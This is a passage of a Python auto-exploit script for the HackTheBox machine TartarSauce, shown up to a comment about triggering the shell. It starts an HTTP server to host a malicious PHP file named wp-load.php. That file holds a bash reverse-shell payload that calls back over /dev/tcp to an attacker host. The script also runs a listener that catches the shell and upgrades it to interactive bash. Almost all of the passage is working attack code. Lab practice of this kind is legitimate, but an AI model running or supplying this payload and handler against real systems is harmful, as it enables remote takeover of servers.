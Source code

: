 auto_pwn_tartarsauce.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Exploit - TartarSauce - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.write(str.encode("/usr/bin/script -qc /bin/bash /dev/null \n"))
    t.interact()

# Mount the php file
def createPayload(lhost,lport):
    print("[+] Let's mount the php file !! [+]")
    payload = "<?php\n"
    payload += "exec(\"/bin/bash -c 'bash -i > /dev/tcp/%s/%s 0>&1'\");" %(lhost,lport)
    f = open("wp-load.php", "w")
    f.write(payload)
    f.close()

# Triger Reverse Shell
```